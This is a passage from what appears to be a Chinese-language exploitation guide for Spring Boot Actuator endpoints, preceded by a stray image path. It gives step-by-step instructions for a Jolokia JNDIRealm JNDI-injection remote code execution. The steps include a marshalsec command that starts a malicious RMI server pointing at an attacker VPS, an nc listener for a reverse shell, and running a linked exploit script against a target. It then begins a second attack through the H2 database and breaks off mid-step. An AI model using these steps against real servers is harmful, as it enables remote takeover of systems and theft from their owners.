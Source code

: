 将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。

**步骤四：架设恶意 rmi 服务**

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 rmi 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389
```

**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```
nc -lvp 443
```

**步骤六：发送恶意 payload**

根据实际情况修改 [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。

**漏洞原理：**

1. 利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2. 设置 connectionURL 地址为 RMI Service URL
3. 设置 contextFactory 为 RegistryContextFactory
4. 停止 Realm
5. 启动 Realm 以触发指定 RMI 地址的 JNDI 注入，造成 RCE 漏洞

**漏洞分析：**

​ [Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)

**漏洞环境：**

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```

#### 0x06：restart h2 database query RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* 存在 `com.h2database.h2` 依赖（版本要求暂未知）

**利用方法：**

**步骤一：设置 spring.datasource.hikari.connection-test-query 属性**

> ⚠️ 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发
